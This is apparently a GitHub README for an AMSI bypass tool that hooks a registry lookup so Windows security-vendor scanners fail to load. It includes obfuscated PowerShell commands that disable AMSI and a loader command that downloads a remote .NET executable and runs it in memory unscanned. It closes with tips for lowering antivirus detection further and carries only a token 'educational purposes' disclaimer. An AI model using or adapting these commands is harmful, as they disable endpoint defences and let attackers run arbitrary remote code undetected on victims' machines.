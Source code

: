 # TrollDisappearKey
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load to bypass powershell amsi \
TrollDisappearKeyPS.ps1 -> copy paste into powershell 


# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 

## .powershell Usage (does not require admin)
![Image](https://github.com/user-attachments/assets/f6b4d83a-ed24-433b-9e2a-4cf6bfe1d1b0)
```
pwd  # run any random command first, this is a must 

[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollDisappearKeyPS.dll"))
[TrollDisappearKeyPS]::DisappearKey()

$t1 = 'System.Manage'
$t2 = 'ment.Automa'
$t3 = 'tion.A'
$t4 = 'msi'
$t5 = 'Utils'
$object = [Ref].Assembly.GetType($t1 + $t2 + $t3 + $t4 + $t5)
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

## Detections 
![Image](https://github.com/user-attachments/assets/60ff00a8-b619-407e-8083-29efc38c632d)



  
## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader. You can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious. Can rename/obufscate certain strings like the reg key path and void the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/e4c80f07-ddbc-4ed6-9ad0-c8e104931f90)


## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!








